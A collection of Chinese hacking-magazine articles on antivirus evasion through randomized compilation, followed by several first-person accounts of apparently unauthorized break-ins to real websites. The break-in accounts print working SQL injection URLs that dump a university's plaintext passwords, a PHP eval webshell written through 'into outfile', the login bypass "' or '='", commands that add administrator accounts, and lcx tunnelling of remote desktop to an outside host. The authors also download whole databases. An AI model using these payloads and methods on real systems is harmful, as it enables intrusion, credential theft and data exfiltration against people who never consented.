IDA 没有被迷惑，并且跳过了定义数据部分 `_emit 0xe8`。这种现象在前面理论中也提到过：IDA 不会像 OD 那样扫描所有代码。

所谓道高一尺魔高一丈，无论是调试工具还是杀毒软件，发展到现在对简单的花指令也是可以辨别跳过的。作为一种目前没有广泛流行的新思路，干扰反汇编特别是静态分析还是很有效果的。

---

前置知识：汇编  
关键词：免杀、编译器、汇编

## 免杀之制作“随机编译器”的思路

文/图 Magic dog

### 前言

本文作为躲避静态查杀的一个方向，研究以拥有源代码为前提，最终目的是在功能不变的情况下，每次能自动生成一定程度上随机的二进制代码。

乍一听本文似乎必然关系到编译器原理这一“大课题”，不过笔者技术有限且对枯燥的编译原理也有一定抵触情绪，所以各位免杀初学者不要刚读到这里就直接打退堂鼓了。本文重在提出一个理论思路，并给出一些实践可用的雏形。

关于源代码免杀的思路已经提出很久，并且黑防以前也有类似文章，本文就不再赘述。本文重在讨论如何得到“随机化”生成的二进制文件。

最后，如果条件允许，能拥有自己的编译器，放开手脚来实现免杀是最好不过的了。

### 理论

- 1. 随机化理论

通过随机化编译程序读取源代码，对源代码进行一定程度的随机修改，然后编译生成二进制文件。对程序员来说没有任何影响，他只需编写好一次代码后，每次生成的程序的二进制代码都不同。随机化手段可以有以下一些：

- 随机增加垃圾代码。由于我们抛开源代码，不再需要考虑文件空间的问题，可以任意插入干扰数据。
- 随机 API 替换。这需要一定时间针对各个 API 研究挖掘。但是不影响随机实现，并且附带绕过杀毒软件启发式检测。
- 随机改变程序流程。
- 随机编译器选项。不同的编译选项，往往生成的文件内容甚至结构都会不一样，比如区段的合并等。

……

特别需要注意的是，我们对源代码的哪些改动会影响最终生成的二进制执行程序。最容易犯的错误是：更改变量名。要知道在最终的二进制文件中是不会存在任何变量名和函数名的，它们都统统化作了“地址”。

- 2. 借鸡生蛋式的随机编译器

以上的思路对高级语言有效，对汇编语言同样适用。如果二者结合自然，则更具叙述性。因为二者本身语法关系，导致代码结构多少有些变化，同时针对的随机化也变得不同。

所谓“二者结合”，是指高级语言在编译为汇编语言后的二次修改。严格地区分，以 VC 为例，一个 C 语言程序，生成时需要经历的几大步骤分别是：预编译、编译、汇编、链接。其中经过“编译”步骤后得到的便是 C 代码对应的汇编代码。这里的“编译”与我们平时将源代码生成为二进制文件的过程统称的编译有所区别。

目前为止，现在假设我们已经得到了随机化后的高级语言源代码，如何对其进行编译呢？

例如，VC 中在我们单击生成按钮或者按下 F7 键之后，便会生成我们的程序（假设代码无误），所以很多时候我们都习惯了这种一站式服务。对单击生成按钮或者按下 F7 键之后 VC 所做的事情，我们并不关心也不了解。

事实上对于 VC，其目录下的 `cl.exe` 负责预编译、编译和汇编，`link.exe` 负责链接目标文件。`cl.exe` 在执行完自身的操作后会自动调用 `link.exe` 链接目标文件，最终生成程序文件。更为重要的是，`cl.exe` 具备生成对应汇编代码的功能。因此我们可以修改源代码对应的汇编代码。不过可惜的是，VC 并没有提供编译汇编的程序。所以我们需要找到一个能编译汇编的编译器。这里我想到了 MASM。

MASM 的编译器程序名为 `ml.exe`，链接程序名为 `link.exe`。到此，一条清晰的代码生成路线呈现在了我们面前，如图 1 所示。

### 演示

起初在将 `cl.exe` 和 `ml.exe` 生成的 obj 文件分别进行测试链接情况时，得到的这个结果曾让我一度有点灰心丧气。

| 场景 | 工具链 | 结果 |
|---|---|---|
| vc cl.exe -> obj | vc + link.exe | 成功生成二进制程序 |
| vc cl.exe -> asm | vc | 没有找到独立汇编编译器 |
| vc cl.exe -> asm | masm ml.exe | 可以编译 |
| masm -> obj | vc + link.exe | 产生错误，无法生成二进制程序 |
| masm -> obj | masm + link.exe | 产生错误，无法生成二进制程序 |

```c
#include "stdio.h"
void main()
{
    printf("ok!");
}
```

```asm
TITLE ic
.386p
include listing.inc
if @Version gt 510
.model FLAT
else
_TEXT SEGMENT PARA USE32 PUBLIC 'CODE'
_TEXT ENDS
_DATA SEGMENT DWORD USE32 PUBLIC 'DATA'
_DATA ENDS
CONST SEGMENT DWORD USE32 PUBLIC 'CONST'
CONST ENDS
_BSS SEGMENT DWORD USE32 PUBLIC 'BSS'
_BSS ENDS
_TLS SEGMENT DWORD USE32 PUBLIC 'TLS'
_TLS ENDS
FLAT GROUP _DATA, CONST, _BSS
ASSUME CS: FLAT, DS: FLAT, SS: FLAT
endif
PUBLIC _main
EXTRN _printf:NEAR
_DATA SEGMENT
$SG336 DB 'ok!', 00H
_DATA ENDS
_TEXT SEGMENT
_main PROC NEAR
; File ic
; Line 4
push ebp
mov ebp, esp
; Line 5
push OFFSET FLAT:$SG336
call _printf
add esp, 8
; Line 6
pop ebp
ret 0
_main ENDP
_TEXT ENDS
END
```

问题停在为什么用 MASM 编译的 obj 文件无法链接成功。

如果不负责任地推脱，可以理所当然地说，针对不同语言甚至级别的 IDE 自然可能出现问题。但是如图 2 所示，`ml.exe` 的出错提示勾起了我继续研究的兴趣。

报错只有两处，且都是没有找到符号的这类错误。这种情况一般是在编译时缺少库才会出现的。类似在高级语言里的预处理命令：`#pragma comment(lib, "*.lib")`。回过头去看汇编代码，发现其只是 `extern _printf` 函数，并没有包含任何库。`_printf` 函数是 CRT 函数，如果不放心，通过查看 `msvcrt.dll` 的导出函数也是可以看到这一项的，如图 3 所示。

现在只能怀疑 `cl.exe` 生成的汇编代码并不完整，因此我在汇编代码里加上包含库的指令：`includelib msvcrt.lib`。再来进行编译，效果如图 4 所示。

值得高兴的是我们去掉了一项错误，并且完全证明了前面的猜想是正确的。那么，这个 `_mainCRTStartup` 又是何方神圣呢？一般情况下，Ring3 上我们的程序执行流程是这样的（以上面的 C 代码为例），如图 5 所示。

程序的执行最开始并不是从我们的入口点函数（默认是 `main`）开始，而是由 `kernel32.dll` 调用 `mainCRTStartup` 函数，`mainCRTStartup` 再调用入口点函数。通过 OD 反汇编我们也可以确认这一点，如图 6 所示是载入上述程序后 OD 便自动暂停的地方，即可控范围内程序的最初始执行处，对应 `mainCRTStartup` 位置前后。第一条执行的语句是个防止溢出的 cookie 机制，我们不用理会。紧接着便是我们关心的 `mainCRTStartup` 函数了。同时注意堆栈处的信息：返回到 `kernel32.77e6f23b`，根据函数调用规则，说明程序是从 `kernel32.dll` 跳转过来的。

从函数名我们可以猜测 `_mainCRTStartup` 也是一个 CRT 函数，可是在 `msvcrt.dll` 中并没有找到其对应的导出函数。并且从 OD 调试之前成功生成的程序中，我也发现这个函数执行是在程序自身模块内。

仔细思考，此次链接出错肯定是某处以符号方式调用了 `_mainCRTStartup` 函数，但是链接器又找不到 `_mainCRTStartup` 对应的地址，所以报错。我们自己的代码以及生成的汇编代码没有显示调用此函数的地方，所以唯一的可能就是 `msvcrt.lib` 调用了。问题似乎陷入了死循环。

无意间我突然想到，由于汇编代码不需要 `main` 函数入口点，那么会不会是汇编链接器自身就不具备识别这类入口点的功能呢？但是我马上打消了这个念头，因为之前 `cl.exe` 产生的 `obj` 都是可以用汇编的链接器生成二进制文件的。不过我眼前一亮，马上将注意力推到 `msvcrt.lib` 这个库文件上，会不会是 MASM 的 `msvcrt.lib` 与 VC 的 `msvcrt.lib` 不一样呢？事实证明我的猜想是正确的。当我再次把 VC 下面的 `msvcrt.lib` 覆盖 MASM 下的 `msvcrt.lib` 后，程序终于成功生成了！并且体积从 VC 版的 6KB 缩小到了 3KB。

至此，从理论到实践，从源代码到生成执行程序的流程我们已经完全实现了。并且这些流程都是可以通过编写程序控制的。本文更多的是讲解如何利用已知编译器创造自己的一条从源代码至生成执行程序的流水线。后续有机会我将会与大家一起就源码的随机生成做进一步探讨。最后附几个工具的常用命令。

```bash
VC:
cl.exe /FA /c test.c        # 生成汇编文件，只得到 obj 文件不执行链接操作
link.exe test.obj           # 链接 obj 文件生成执行程序

Masm:
ml.exe /c /coff test.asm    # 编译汇编代码，生成 obj 文件
link /SUBSYSTEM:console test.obj  # 链接 obj 文件生成执行程序
```

---

前置知识：无

关键词：Linux、网站、渗透

## 刨某 Linux 网站的一次渗透

文/图 Simeon

最近参加了一个培训，培训的东西太唬人，真正的东西都是私下交流的，而要真正掌握则需要自己不停地学习，不停地实验，不停地实践。2010 年由于各种原因比较忙，学习得较少，有学习，有总结才能有提高。本文算是对过去的一种总结，虽然方法都差不多，但还是从中学到了不少东西，现写出来跟大家分享。

### SQL 注入测试

在 IE 浏览器中正常打开网站 `http://www.xxxxxx.kr/index.php?id=1483`，浏览网页，如图 1 所示，一切显示正常；在网页地址最后添加一个单引号后访问，发现显示结果发生明显变化，在右侧窗体显示图片，说明可能存在 SQL 注入点，如图 2 所示。

### 使用 Havij SQL 注入攻击器进行自动检测

打开 Havij SQL 注入工具，将存在 SQL 注入点的地址复制在 “Target” 中，然后单击 “Analyze” 开始进行检测，如图 3 所示。该工具跟 Pangolin 非常类似，不过设计界面更加简洁。检测结果表明该地址存在 SQL 注入，其基本信息如下：

### 获得管理员账号和密码

在获取其基本信息后，依次操作是 “Get DBS” → “Get Table” → “Get Columns” → “Get Data”，浏览通过 Havij 获取数据库中的表，可以判断 `xe-member` 为管理员的表，选中它进行猜解，结果出来了，如图 4 所示。`admin` 的密码采用 md5 加密了，其值为 “3144ad83e563f7778422d0fcbd97bed”。将该 md5 值通过 cmd5 以及其他一些 md5 值查询网站进行查询，未能免费获取，因此此处后台进入的路只能放弃，后面在获得 Webshell 后……查看该网站也发现数据库中虽然设计了表，但在实际程序中并未使用该表。

将 SQL 注入地址复制到 Pangolin 中，在检测出 SQL 注入点以后直接切换到“File Reader”模块，将 Apache 配置文件复制到“File Path”中，直接读取出来了，如图 8 所示。


图 4 获取管理员密码

### 三、读取网站 Linux 系统中的文件

- 1. 读取 passwd 和 shadow 文件

单击“Read Files”，在“File Address”中输入“/etc/passwd”进行读取，结果如图 5 所示，将其复制到文件中进行查看。通过分析“/etc/passwd”文件，知道该服务器存在多个网站用户，用户 ID 从 503 到 526，一共有 24 个用户。后面读取“/etc/shadow”失败，不能直接获取 Linux 用户的密码。


图 5 读取 /etc/passwd 文件内容

- 2. 读取网站文件

通过 /etc/passwd 文件直接读取存在 SQL 注入点的 php 文件，在“File Address”中输入“/home/lixxxxx/index.php”，如图 6 所示，得知该数据库用户名为 root，密码为“gxxx5”。

- 3. 读取 Apache 配置文件

通过分析 /etc/passwd 文件，可以知道该服务器采用 Apache+MySQL+PHP 架构，因此通过读取 Apache 配置文件即可获取网站的真实路径。直接读取 Apache 配置文件“/etc/httpd/conf/httpd.conf”，通过 Havij 读取失败，如图 7 所示。


图 6 读取网站文件


图 7 使用 Havij 读取 Apache 配置文件失败


图 8 使用 Pangolin 读取 Apache 文件

## 构建和获取 Webshell

- 1. 使用 Pangolin 写入 Webshell

在 Pangolin 中单击“File Writer”，在“File Path”中输入“/home/life2health/zwel.php”，文件内容就是用 Pangolin 默认的内容，如图 9 所示，测试写入，结果提示不能写入，一个可能的原因就是“Magic_quotes_gpc”参数设置为“OFF”，看来直接写入获取 Webshell 不行。


- 2. 通过数据库的 outfile 来获取 Webshell

在本例中由于获取了网站的真实路径，以及获取数据库 root 用户的密码，因此可以尝试通过 outfile 来获取 Webshell，使用 MySQL-Front 登录该 MySQL 数据库服务器，执行“Select '<?php eval($_POST[cmd]);?>' into outfile '/home/xxxx/img/12.php';”，如图 10 所示，显示 SQL 执行错误，猜测可能原因是网站目录没有写入权限。


回到 Apache 的配置文件，将所有网站的配置文件中有关网站路径重新整理，一个一个地进行测试，终于在测试到 diet 网站时成功了，如图 11 所示。

- 3. 获取 Webshell

直接给出一句话大杀器——中国菜刀，添加好类别，直接连接，终于出现比较熟悉的界面，如图 12 所示。在该文件目录下，还出现了多个压缩文件，从 111.rar 到 999.rar 文件，既然拿下，那么就将其下载到本地进行查看，后面通过分析，获悉该压缩文件为国内某门户网站的所有数据库文件。

该 Linux 服务器不过是一台文件中转站而已。后面再次通过分析日志文件发现该入侵者再次使用了一个跳板，如图 13 所示，由此可见该入侵者非常小心，先将压缩后的数据库文件上传到国内肉鸡上，再从国内肉鸡转移到韩国 Linux 服务器上，然后再从韩国服务器上下载到本地。


### 疑似入侵下载数据库

利用中国菜刀上传一个功能比较齐全的 Webshell，如图 14 所示，通过执行命令以及反弹端口等操作，发现该 Webshell 的权限较小，估计前期入侵者已经对服务器进行过加固，即使获取了 Webshell 也无法提权。


图 14 上传 phpspy2009

抱着研究和学习的目的，通过 Webshell 将该网站所有的数据库导出，如图 15 所示，由于数据库用户是 root 权限，因此该服务器上所有数据库均能访问，将数据库以及程序代码导出到 Shell 目录，压缩后下载到本地，供研究学习使用。


图 15 导出数据库到本地

## 几点

- Linux 的渗透相对较难，但也不是无迹可寻，只要工夫深，铁杵磨成针！要注意日常的技术和技巧积累，不断地进行总结和回味。就本文而言，有以下几点体会。

1. 使用 MySQL-Front 导出一句话木马，连接 MySQL 数据库成功后执行语句，将一句话木马导出到目录下，通过中国菜刀即可获得 Webshell。  
2. Apache 在 CentOS 中的配置文件路径为 `/etc/httpd/conf/httpd.conf`，读取 `httpd.conf` 可获取网站真实路径等信息，这些信息在生成一句话 Webshell 时特别有用。  
3. 熟悉掌握 Havij SQL 注入工具。除去 Pangolin 外，Havij 也是一款免费的 SQL 注入工具。  
4. Havij 配合 Pangolin 读取 Linux 文件效果较佳，有时 Havij 不能读取的文件，在 Pangolin 中可以读取，反之亦可。  
5. Linux 中目录权限控制严格，一般网站根目录下会有可写目录，写 Webshell 时需要多尝试，特别是 `img`、`images` 和 `xml` 等目录是常见可写目录。

前置知识：Oracle  
关键词：Oracle、注入

## 一次注入 Oracle 数据库的经历

文/图 人鱼姬

由于某些原因，我对某大学的研究生信息管理网站产生了兴趣，如图 1 所示，目前我能访问的就是该网站的登录页面。在 Google 上搜了一下，也没有找到此网站上更多有用的页面。该服务器是 Linux 的，上面没有其他网站，我没有用扫描器扫描它，因为我不指望能用远程溢出进入这个服务器。这年头，如果你能通过远程溢出进入一个服务器，那么至少有上百人早就赶在你前面了。

既然不可能从服务器层面上入手，那就再看看 Web 吧。图 1 显示学生用户的登录用户名是学号，就国内现有的网络安全现状而言，据我保守估计，此网站上至少应该有超过 20% 的人使用学号或者弱口令作为密码，但是我不知道他们学校的研究生学号命名规则。尽管我认识这个学校的一个研究生，但是我不喜欢求人，还是先在网上搜搜吧。关键词“**大学 研究生 学号**”...


图 1


还等什么？赶紧试试吧，很快就找到一个人使用学号作为密码的。这样，我总算能看见网站里面的东西了。该网站是用 JSP 脚本编写的，那么它的数据库最有可能是 Oracle 的，事后证明我猜对了。

看了一下学生能够使用的功能，发现一个发站内邮件的功能，还可以上传附件，如图 3 所示。


然后我就给自己发了个站内邮件，附件上传了一张图片。如图 4 所示是选择收件人界面，可以通过多种条件查询收件人，这个功能很重要，后面还会用到。


如图 5 所示，将鼠标停在邮件附件的下载链接上，IE 左下角显示出地址；是个动态地址，我无法得到它的真实路径，也就是说，即使我能上传 jspshell，也找不到它。


没办法，再看看有没有其他注入点吧。一些通知的链接、个人信息的链接全看了，不存在注入。于是我又到处找有没有搜索的功能，说不定还存在搜索型注入呢。请注意图 4，那里有查找站内邮件收件人的功能，我在收件人搜索条件的年级输入框里输入“'”，图 6 所示，出错了，连 SQL 语句都爆出来了，看来没有过滤“'”。


然后我又搜索“1%' and 2>1 and '%='”和“1%' and 2=1 and '%='”，前者搜索结果和搜索“1”无异，后者没有搜索结果，看起来存在搜索型注入，如图 7 和图 8 所示。


既然图 6 中连 SQL 语句都报出来了，那么想要联合查询注入就应该很容易，可是我却发现无法使用“--”和“/*”来注释后面的语句，不知道是何原因，这样就没办法联合查询了。假如不用联合查询，逐个猜解我可受不了，最后试了很久，还是放弃了。

不过我很快就发现还可以搜索信息公告，如图 9 所示。


图 9

这里的数据包不是 GET 方式提交的，我就抓包来看，将 POST 方式提交的数据放在 IE 地址栏，假如能够用 GET 方式提交，注入起来就方便一点，如图 10 所示。


图 10

虽然提交的参数很长，但是有些不是必要的，可以删掉，最后我将其简化成了：

```
http://www.xxx.com/messageviewlisting.do?method=query&criteria=1%3D1+and+title+like+%27%252010%25%27
```

“2010”是我要搜索的关键词，“%25”是 % 的编码，“%27”是“'”的编码。提交该 URL，如图 11 所示，没有问题，还发现上面的错误信息暴露了脚本的绝对路径，如下所示：

```
[ServletException]

in/application/yanyuan/message/messagelistingextend.jsp] null
```


图 11

随后提交以下内容：

```
http://www.xxx.com/messageviewlisting.do?method=query&criteria=1%3D1+and+title+like+%27%252010%25%27+order+by+10
```

结果如图 12 所示。


图 12

再提交以下内容：

```
http://www.xxx.com/messageviewlisting.do?method=query&criteria=1%3D1+and+title+like+%27%252010%25%27+order+by+11
```

结果如图 13 所示。对比图 12 和图 13，可知被注入的 select 语句查询了 10 个字段，因为按照第 10 个字段排序结果正常，按照第 11 个字段排序没有结果。


图 13

于是提交如下 URL，其中包含 10 个 NULL，dual 是个低权限就能访问的表，返回结果没有报错，说明这个联合查询注入语句没问题。这里要说明一点，有的时候使用联合查询注入，“union select”会出错，导致进行不下去，使用“union all select”就好了，尽管二者都是联合查询，然而后者适用范围却更广，请大家切记。

```
http://www.xxx.com/messageviewlisting.do?method=query&criteria=1%3D1+and+title+like+%27%252010%25%27 union all select NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL from dual
```

经过几次尝试，再提交以下内容：

```
http://www.xxx.com/messageviewlisting.do?method=query&criteria=2%3D1+and+title+like+%27%252010%25%27 union all select NULL,1,NULL,2,'3',NULL,NULL,NULL,NULL,NULL from dual
```

如图 14 所示，有 3 个字段的位置被找到了。


图 14

接着提交以下内容：

```
http://www.xxx.com/messageviewlisting.do?method=query&criteria=2%3D1+and+title+like+%27%252010%25%27 union all select NULL,banner,NULL,2,'3',NULL,NULL,NULL,NULL,NULL from v$version
```

得到了 Oracle 的版本，如图 15 所示。


图 15

来看看所有的表名吧，提交以下内容：

```
http://www.xxx.com/messageviewlisting.do?method=query&criteria=2%3D1+and+title+like+%27%252010%25%27 union all select NULL,table_name,NULL,2,'3',NULL,NULL,NULL,NULL,NULL from user_tables
```

如图 16 所示，我顿时傻眼了，有 1586 个表，我怎么知道哪个是存放管理员密码的表呀？


图 16

不必担心，我还有办法，提交以下内容：

```
http://www.xxx.com/messageviewlisting.do?method=query&criteria=2%3D1+and+title+like+'%27%252010%25%27 union all select NULL,table_name,NULL,column_name,3,NULL,NULL,NULL,NULL,NULL from user_tab_columns where column_name like '%25PASS%25'
```

如图 17 所示，我将所有字段名存在“PASS”的表都查询出来了，因为凡是存放密码的字段多数是“PASSWORD”、“USERPASS”、“PASS”等包含“PASS”的名字。注意，Oracle 数据库的表名和字段名一般都是大写的。

但是经过我逐个检查，发现这些表里都没有管理员的数据，这可怎么办，上千个表我可没时间一个一个地去看。想不到成功地构造了注入语句却卡在了这里。


图 17

过了很久，我突然想到，之前不是报出了那个 SQL 语句吗？它所查询的表包含了全校人的信息，说不定就有管理员呢，于是提交以下内容：

```
http://www.xxx.com/messageviewlisting.do?method=query&criteria=2%3D1+and+title+like+'%27%252010%25%27 union all select NULL,table_name,NULL,column_name,3,NULL,NULL,NULL,NULL,NULL from user_tab_columns where table_name='VW_GY_USER_REL_RULE'
```

如图 18 所示，果然就包括 USERPW 这个字段，看来全校人的密码都在这里，怪不得我搜索“PASS”没找到呢。但是不要高兴得太早，看看管理员在不在里面吧。


图 18

提交以下内容：

```
http://www.xxx.com/messageviewlisting.do?method=query&criteria=2%3D1+and+title+like+'%27%252010%25%27 union all select NULL,USERNAME,NULL,ROLENAME,ROLE_ID,NULL,NULL,NULL,NULL,NULL from VW_GY_USER_REL_RULE
```

如图 19 所示，可以看到每个用户所在的用户组，比如“研究教师_培养”，可以预料到，ROLE_ID 对应的那个很长的字符串就是“研究教师_培养”这个用户组的 ID。


图 19

于是提交以下内容：

```
http://www.xxx.com/messageviewlisting.do?method=query&criteria=2%3D1+and+title+like+'%27%252010%25%27 union all select NULL,USERNAME,NULL,ROLENAME,ROLE_ID,NULL,NULL,NULL,NULL,NULL from VW_GY_USER_REL_RULE where ROLE_ID<>'ff80808102e6b16e0102fd3761c200cf'
```

如图 20 所示，我将所有属于“研究教师_培养”这个用户组的 ID 都排除在外了，又出来了“研究教师_学科”。


图 20

提交以下内容：

```
http://www.xxx.com/messageviewlisting.do?method=query&criteria=2%3D1+and+title+like+'%27%252010%25%27 union all select NULL,USERNAME,NULL,ROLENAME,ROLE_ID,NULL,NULL,NULL,NULL,NULL from VW_GY_USER_REL_RULE where ROLE_ID<>'ff80808102e6b16e0102fd3761c200cf' and ROLE_ID<>'402880711d2d9284011d2d987ee90001'
```

如图 21 所示，出现了“院系管理员”，这是低级的管理员，下面将他们排除在外吧，现在我觉得真正的后台管理员离我越来越近了。


图 21

经过多次尝试，提交以下内容：```sql
http://www.xxx.com/messageviewlisting.do?method=query&criteria=%23D1'and+title+like+%27%252010%25%27 union all select NULL,USERNAME,NULL,ROLENAME,ROLE_ID,NULL,NULL,NULL,NULL,NULL from VW_GY_USER_REL_ROLE where ROLE_ID<>'f80808102e6b16e0102fd761c200cf' and ROLE_ID<>'4028807d12d9284011d2d987ee00001' and ROLE_ID<>'402880d21997cadf011997cdd8cb0003' and ROLE_ID<>'402880d2191321a60119153523d1001b' and ROLE_ID<>'402880d2191321a60119134afc990012' and ROLE_ID<>'402880bef8e9e8400fe8e9e84c300001' ...
```

如图22所示，我终于找到了“研究生学籍超级管理员”，用户名是 *yyadmin*。赶快查询他的密码吧，提交以下内容：

```sql
http://www.xxx.com/messageviewlisting.do?method=query&criteria=%23D1'and+title+like+%27%252010%25%27 union all select NULL,USERNAME,NULL,ROLENAME,USERPW,NULL,NULL,NULL,NULL,NULL from VW_GY_USER_REL_ROLE where ...


```

图22

管理员的密码是明文保存的，于是顺利地得到了后台管理员权限，但后来发现管理员使用的功能十分有限，虽然最终并未得到 JSPShell，不过这也是一次非常曲折离奇的注入经历了。

前置知识：无  
关键词：Public、asp.net、渗透

## Public 权限渗透某 asp.net 网站

文/图 Simeon

- 1. 使用 Google 搜索管理后台真实地址。
- 2. LCX 端口转发程序突破内网限制。
- 3. asp.net 类网站的渗透思路。

本文知识要点：

对于数据库用户权限为 Public 的网站渗透相对较难，设置为这种权限多数具有较高的安全意识。在通过 SQL 注入点获取 Public 权限时，需要多方分析，尝试各种方法进行渗透测试。但不管如何，存在 SQL 注入点就是一种突破，通过 SQL 注入能够获取网站数据库的一些信息，通过这些信息再进行渗透和提权就相对容易一些。尤其是在获得网站后台管理员权限的情况下，通过文件包含、数据库备份、图片上传、文件上传、插入一句话等来获取 WebShell。下面就以一个实际案例来分析如何利用 Public 权限渗透某 asp.net 网站。

### 1. 寻找 SQL 注入点

通过查看网站的各个页面，寻找有参数传入的页面，在有参数的页面中进行出错判断，如图1所示，在传出参数 typeid=1 后面附加“'”使其自动爆出错误，通过该错误信息可以知道数据库为 MSSQL。

### 2. 使用各种 SQL 注入工具进行信息收集和数据猜测

还有一些免费的工具，例如 Pangolin、Havi、Domain3.5、HDSI2.5 以及啊D等 SQL 注入工具。在本次渗透过程中先后使用了 Pangolin、Havi，如图2所示，使用 Havi 1.2 免费版本测试效果并不好，未能获取更多的信息。

图1 获取 SQL 注入点

技巧：

- （1）在发现 SQL 注入点后一般先使用一些自动测试工具进行测试，在测试时可以依次使用多个工具进行测试，虽然这些 SQL 注入工具功能大致相同，但在某些场景下，使用有些工具能够成功，而使用某些工具就不一定成功。
- （2）先工具后手工，事后进行总结，加深对渗透的理解，并将有用的技巧收集整理。

图2 使用 Havij 进行 SQL 注入渗透测试

### 3. 使用 Domain3.5 检测到目标网站存在 SQL 注入点

打开 Domain3.5 SQL 注入工具，单击“SQL 注入”→“SQL 注入猜解检测”命令，将刚才测试出错前的正常页面地址复制到“注入点”中，然后单击“开始检测”按钮，如果该注入点能够进行 SQL 注入，则会在检测信息中显示详细信息，如图3所示，获取该数据库是 MSSQL、当前数据库以及当前权限等信息。

图3 检测 SQL 注入点

### 4. 猜解数据库中的表和表中的数据

这一步是 SQL 注入检测中最重要的一步，如果能够成功，就意味着可以查看和修改数据库中的数据。单击“猜解表名”按钮，猜解数据库中一共有多少个表，在本例中一共有 33 个表，然后查看数据库表名称来判断哪个表是保存管理员用户名和密码的，确定并选中，然后单击“猜解列名”按钮来获取表中的具体列名，然后选择需要查看内容的列名，最后单击“猜解内容”按钮，获取其相应信息，如图4所示，获取了管理员的密码，而且管理员的密码是明文的未加密！

### 5. 扫描和获取后台地址

在 Domain3.5 中单击“管理入口扫描”命令来获取管理入口的具体地址，在本例中通过 Domain3.5 未能获取管理后台地址，这时候就需要动用其他方法，一个比较好的方法就是利用搜索引擎，使用“site:somesite.com 登录”或者“site:somesite.com 系统管理”等来搜索后台地址，如图5所示，获取了后台的详细地址。

图4 获取数据库内容  
图5 获取后台登录地址

### 6. 登录测试和验证

直接打开从搜索引擎中获取的后台地址，如果能够正常访问，说明该页面可能是真的后台地址，如图6所示，该页面能够正常访问，且通过页面信息可以判定该地址就是管理后台地址，输入刚才获取的用户名和密码进行测试，登录成功，如图7所示。

图6 后台地址测试和验证  
图7 后台登录成功

### 7. 寻找、测试和获取 Webshell

#### （1）获得图片上传页面

当使用 SQL 注入工具或者手工注入获得管理员的用户名和密码成功登录系统后，需要查看系统信息发布等模块，查看是否存在文件上传部分，如果没有，则尝试插入一句话进行后台备份等操作。在本次渗透过程中通过查看后台的各个功能模块，发现有四个信息添加模块，在新建会员模块中存在上传图片模块，单击链接进入新建会员模块，如图8所示，在图片中直接选择一个 asp.net 的 Webshell，然后上传。上传结果显示成功，如图9所示。

图8 获得文件上传模块  
图9 文件上传成功

#### （2）查看文件上传的真实地址

虽然页面显示文件上传成功，但还需要找到文件上传的真正地址，核对上传的文件是否更改了后缀。新建会员后，需要从前台来查看刚才添加的效果。如图10所示，找到会员列表，然后寻找最后添加的记录。

图10 通过前台查看上传图片

对于网站 CMS 系统处理新添加记录有两种结果，一种是按照最新时间排序，另外一种是降序，因此在翻看记录时，需要分析数据添加的规律。在本例中就是按照时间升序排序，即最早添加的最先显示，因此需要跳转到页码最大处才能看到刚才添加的记录，如图11所示，右键选中图片，查看图片属性，从而获取该图片的真实地址，上传模块未对上传文件后缀等进行限制，上传文件一律按照时间（年月日分秒）+原真实上传文件名称进行命名。

图11 获取图片的真实地址

### （3）获取 Webshell

在 IE 浏览器中打开上传 Webshell 的真实地址，如图12所示，输入 Webshell 的密码后，出现熟悉的 asp.net 的 Webshell 界面。

### 8. 尝试提权

通过 Webshell 查看该服务器安装程序和网站文件等，然后利用掌握的信息进行提权，在本次渗透过程中发现该服务器为内网服务器，通过防火墙映射到外网，对外仅仅开放了 80 端口，在网络地址中未配置 DNS，系统中无可提权的其他可用信息。

因此首先尝试使用 pr 进行提权。如图13所示，先将 pr 程序上传到回收站中，然后分别执行“E:\RECYCLER\pr.exe”，参数“net user temp temp2005 /add”，参数“net localgroup administrator temp /add”。执行结果显示“命令成功完成”，表示 pr 提权成功。

图12 成功获得该网站的 Webshell  
图13 使用 pr 提权

### 9. 登录远程桌面

- 1. 查看添加的用户

在 Webshell 中通过 CMDShell 查看刚才添加的用户是否成功，如图14所示，可以看到系统已经添加了一个 temp 的管理员用户。

图14 查看添加的用户

- 2. 使用 lcx 进行端口转发

在具有独立 IP 的计算机上执行“lcx -listen 51 2008”，意思是监听 51 端口，并将 51 端口映射到本机的 2008 端口。

图15 使用 lcx 进行端口监听

在 Webshell 中执行“E:\RECYCLER\lcx.exe”，参数设置为“-slave 202.XXX.XXX.XXX 51 172.30.11.81 3389”，意思是连接 IP 地址 202.XXX.XXX.XXX 的 51 端口，将服务器内网地址为 172.30.11.81 的 3389 端口转发到 202.XXX.XXX.XXX 的 51 端口上。

图16 使用 lcx 进行端口转发

- 3. 连接远程桌面

在监听 51 端口的计算机中打开远程终端登录界面，然后输入“127.0.0.1:2008”进行登录，输入刚才添加的 temp 用户和密码，如图17所示，成功登录系统，从而获得服务器权限，成功渗透该服务器。

图17 成功进入系统

### 总结

- 1. 对于 asp.net 的渗透思路
  - 1. 扫描目标网站，获取 SQL 注入点或者其他漏洞。
  - 2. 利用扫描结果信息进行渗透测试。
  - 3. 获取 Webshell。获取 Webshell 较多的方法是通过上传，以及各类 Web 编辑器的漏洞，还有某一类程序的漏洞，当然这些漏洞的利用需要一些辅助条件。某些网站在被入侵后，入侵者会将整个网站进行打包，下载完毕后未删除，如果能够成功将其下载，对于分析漏洞和获取 Webshell 很有帮助。
  - 4. 对服务器进行提权。对服务器提权主要是看服务器上安装了哪些程序，然后采取相应的提权方法，例如，读取 VNC 密码，读取 Radmin 密码，下载 PcAnywhere 密码保存文件，利用 Serv-U 直接添加用户，利用系统未安装补丁程序进行本地提权，编写 autorun.inf 病毒，导出脚本到启动添加用户，MSSQL SA 权限直接添加系统用户，MySQL UDF 函数提权等。
- 2. 在拥有 Webshell 情况下，利用 LCX 端口转发实现内网突破效果还是不错的。
- 3. 在使用 SQL 注入工具扫描不出后台的情况下，可以尝试通过 Google 搜索来获取后台真实地址。

前置知识：无  
关键词：渗透、SQL、注入

## 某国外大学服务器

文/图 Simeon

在本文中介绍一种直接绕过验证进入后台，通过寻找上传地址，并从代码等地方寻找提权的方法，直接获得服务器权限。

### 寻找并绕过后台登录验证

可以通过一些 SQL 注入工具来获取后台，也可以手动尝试后台地址进行登录，本案例相对简单，后台就是 http://www.somesite.com/admin。在浏览器中打开后台登录地址，如图1所示，在 Username 中输入“' or '='”，密码随便输入，然后单击“Login”按钮登录系统。

突破后台验证，从而直接进入后台，该方法对国外网站使用效果较好。

（3）最后一种方法是通过暴力猜解，即通过设置用户名和密码来实施暴力破解，该方法要求准确知道管理员用户名，然后通过了解的信息来生成社工字典进行破解，其效果会更好。

### 成功进入后台

